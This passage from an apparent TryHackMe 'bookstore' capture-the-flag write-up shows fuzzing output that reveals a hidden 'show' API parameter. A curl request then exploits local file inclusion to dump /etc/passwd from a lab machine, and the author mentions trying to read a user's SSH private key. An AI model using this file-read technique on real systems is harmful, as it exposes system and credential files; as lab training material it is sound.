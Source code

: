```console
===================================================================

000000001:   200        1 L      1 W      3 Ch        "id"                                                                                                           
000000069:   200        30 L     38 W     1555 Ch     "show"                                                                                                         
000000100:   200        1 L      1 W      3 Ch        "author"                                                                                                       
000000815:   200        1 L      1 W      3 Ch        "published"                                                                                                    

Total time: 0
Processed Requests: 2588
Filtered Requests: 2584
Requests/sec.: 0
```
We find a new parameter **show** which was not shown on the documentation.

## LFI
```console
local@local:~/Documents/tryhackme/bookstore$ curl http://10.10.192.216:5000/api/v1/resources/books?show=/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sid:x:1000:1000:Sid,,,:/home/sid:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
```
We can see the contents of /etc/passwd and we can see there is a user sid on the box. So, for code execution first thing I tried was to get the private key of user sid if he has one, but I got an error which means either we cant read the file or the file doesnot exists.
